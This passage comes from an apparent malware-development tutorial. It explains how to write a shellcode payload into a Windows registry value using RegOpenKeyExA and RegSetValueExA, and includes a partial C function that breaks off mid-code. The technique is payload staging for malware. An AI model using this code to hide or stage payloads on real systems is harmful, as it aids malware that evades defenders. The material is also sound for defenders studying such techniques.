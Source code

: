 Next, the [RegSetValueExA](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa) WinAPI is used which takes the opened handle from `RegOpenKeyExA` and creates a new value that is based on the second parameter, `REGSTRING`. It will also write the payload to the newly created value.


```
LSTATUS RegSetValueExA(
  [in]           HKEY       hKey,            // A handle to an open registry key
  [in, optional] LPCSTR     lpValueName,     // The name of the value to be set (REGSTRING constant)
                 DWORD      Reserved,        // Set to 0
  [in]           DWORD      dwType,          // The type of data pointed to by the lpData parameter
  [in]           const BYTE *lpData,         // The data to be stored
  [in]           DWORD      cbData           // The size of the information pointed to by the lpData parameter, in bytes
);

```
It is also worth noting that the fourth parameter specifies the data type for the registry value. In this case, it's set to `REG_BINARY` since the payload is simply a list of bytes but the complete list of data types can be found [here](https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-value-types).


```
STATUS = RegSetValueExA(hKey, REGSTRING, 0, REG_BINARY, pShellcode, dwShellcodeSize);

```
### **Closing Registry Key Handle**

Finally, [RegCloseKey](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey) is used to close the handle of the registry key that was opened.


```
LSTATUS RegCloseKey(
  [in] HKEY hKey // Handle to an open registry key to be closed
);

```
### **Writing To The Registry - Code Snippet**


```
// Registry key to read / write
#define     REGISTRY            "Control Panel"#define     REGSTRING           "MalDevAcademy"

BOOL WriteShellcodeToRegistry(IN PBYTE pShellcode, IN DWORD dwShellcodeSize) {

    BOOL        bSTATE  = TRUE;
    LSTATUS     STATUS  = NULL;
    HKEY        hKey    = NULL;

    printf("[i] Writing 0x%p [ Size: %ld ] to \"%s\\%s\" ... ", pShellcode, dwShellcodeSize, REGISTRY, REGSTRING);

    STATUS = RegOpenKeyExA(HKEY_CURRENT_USER, REGISTRY, 0, KEY_SET_VALUE, &hKey);
    if (ERROR_SUCCESS != STATUS) {
        printf("[!] RegOpenKeyExA Failed With Error : %d\n", STATUS);
        bSTATE = FALSE; goto _EndOfFunction;
    }

    STATUS = RegSetValueExA(hKey, REGSTRING, 0, REG_BINARY, pShellcode, dwShellcodeSize);
    if (ERROR_SUCCESS != STATUS){
        printf("[!] RegSetValueExA Failed With Error : %d\n", STATUS);
        bSTATE = FALSE; goto _EndOfFunction;
    }
```